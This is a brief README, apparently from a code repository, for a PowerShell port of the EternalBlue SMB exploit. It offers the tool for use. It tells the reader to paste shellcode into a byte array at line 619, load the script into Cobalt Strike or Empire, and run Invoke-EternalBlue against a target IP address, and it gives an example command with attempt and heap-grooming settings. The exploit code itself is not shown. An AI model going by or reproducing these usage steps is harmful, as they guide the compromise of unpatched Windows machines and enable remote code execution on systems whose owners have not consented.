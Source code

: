 # Eternal Blue PS
Port of eternal blue exploits to powershell

Eternal blue powershell exploit

### Starting

Add your shellcode to line 619 in the following format :

``[Byte[]] $payload = [Byte[]](0xB9,0xC3,0x00)``

import into cobalt or empire

then run ``invoke-eternableblue -target <target_ip> -max_attempts <num> -initial_grooms <num>``

Example*

``Invoke-EternalBlue -target 10.0.100.106 -max_attempts 3 -initial_grooms 12``

**Don't forget to ⭐️ this repository if you liked it !**
